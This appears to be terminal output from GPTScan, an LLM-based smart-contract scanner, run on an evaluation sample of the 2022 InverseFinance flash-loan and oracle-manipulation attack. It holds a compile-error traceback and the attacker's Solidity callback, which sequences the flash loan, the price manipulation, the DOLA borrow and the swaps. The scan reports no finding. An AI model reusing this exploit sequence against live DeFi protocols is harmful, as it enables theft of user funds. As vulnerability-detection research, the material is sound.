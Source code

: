 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:17] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220616 InverseFinance - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when              
           not using a compilation framework.                                                                                                                                                                                                           
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220616 InverseFinance - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a compilation framework.                                  
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ have inside code statements that update/accrue interest/exchange rate,                                                                                                                                                                               │
│ Code:                                                                                                                                                                                                                                                │
│   function executeOperation(                                                                                                                                                                                                                         │
│     address[] memory assets,                                                                                                                                                                                                                         │
│     uint256[] memory amounts,                                                                                                                                                                                                                        │
│     uint256[] memory premiums,                                                                                                                                                                                                                       │
│     address initiator,                                                                                                                                                                                                                               │
│     bytes memory params                                                                                                                                                                                                                              │
│   ) public returns (bool) {                                                                                                                                                                                                                          │
│     assets;                                                                                                                                                                                                                                          │
│     amounts;                                                                                                                                                                                                                                         │
│     premiums;                                                                                                                                                                                                                                        │
│     params;                                                                                                                                                                                                                                          │
│     initiator;                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     WBTC.approve(address(curveVyper_contract), type(uint256).max);                                                                                                                                                                                   │
│     WBTC.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     usdt.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     DOLA.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     crv3crypto.approve(                                                                                                                                                                                                                              │
│       0xE537B5cc158EB71037D4125BDD7538421981E6AA,                                                                                                                                                                                                    │
│       type(uint256).max                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Flashloaned, WBTC balance of attacker:",                                                                                                                                                                                                      │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     curveVyper_contract.add_liquidity(amounts2, 0);                                                                                                                                                                                                  │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, crv3crypto balance of attacker:",                                                                                                                                                                                        │
│       crv3crypto.balanceOf(address(this))                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, WBTC balance of attacker:",                                                                                                                                                                                              │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.deposit(5375596969399930881565, address(this));                                                                                                                                                                                   │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Yearns Vault, yvCurve3 balance of attacker:",                                                                                                                                                                                    │
│       yvCurve3Crypto.balanceOf(address(this))                                                                                                                                                                                                        │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.approve(                                                                                                                                                                                                                          │
│       0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587,                                                                                                                                                                                                    │
│       100000000000000000000000000000000000000000000000000                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     anYvCrv3CryptoInverse.mint(4906754677503974414310);                                                                                                                                                                                              │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Inverse Yearn 3Crypto Vault, anYvCrv3Crypto balance of attacker:",                                                                                                                                                               │
│       anYvCrv3CryptoInverse.balanceOf(address(this))                                                                                                                                                                                                 │
│     );                                                                                                                                                                                                                                               │
│     address[] memory toEnter = new address[](1);                                                                                                                                                                                                     │
│     toEnter[0] = 0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587;                                                                                                                                                                                         │
│     Unitroller.enterMarkets(toEnter);                                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                      │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                                │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, USDT balance of attacker:",                                                                                                                                                                                                      │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                      │
│       WBTC.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, WETH balance of CRV3Pool:",                                                                                                                                                                                                      │
│       WETH.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, USDT balance of CRV3Pool:",                                                                                                                                                                                                      │
│       usdt.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       address(usdt),                                                                                                                                                                                                                                 │
│       2677500000000,                                                                                                                                                                                                                                 │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WETH.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of CRV3Pool:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "Manipulated YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                    │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     InverseFinanceDola.borrow(10133949192393802606886848);                                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "DOLA balance of attacker:",                                                                                                                                                                                                                   │
│       DOLA.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       75403376186072,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of attacker:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(dola3pool3crv),                                                                                                                                                                                                                        │
│       address(DOLA),                                                                                                                                                                                                                                 │
│       address(crv3),                                                                                                                                                                                                                                 │
│       10133949192393802606886848,                                                                                                                                                                                                                    │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap,3crv balance of attacker:",                                                                                                                                                                                                        │
│       crv3.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curve3pool.remove_liquidity_one_coin(9881355040729892287779421, 2, 0);                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       10000000000000,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of attacker:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     WBTC.approve(address(aaveLendingPool), 2702430000000);                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     return true;                                                                                                                                                                                                                                     │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│   "1": "No",                                                                                                                                                                                                                                         │
│   "2": "No"                                                                                                                                                                                                                                          │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                  Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value             ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                 │
│ Contracts            │ 1                 │
│ Functions            │ 1                 │
│ Lines of Code        │ 215               │
│ Used Time            │ 1.111302137374878 │
│ Estimated Cost (USD) │ 0.002084          │
└──────────────────────┴───────────────────┘
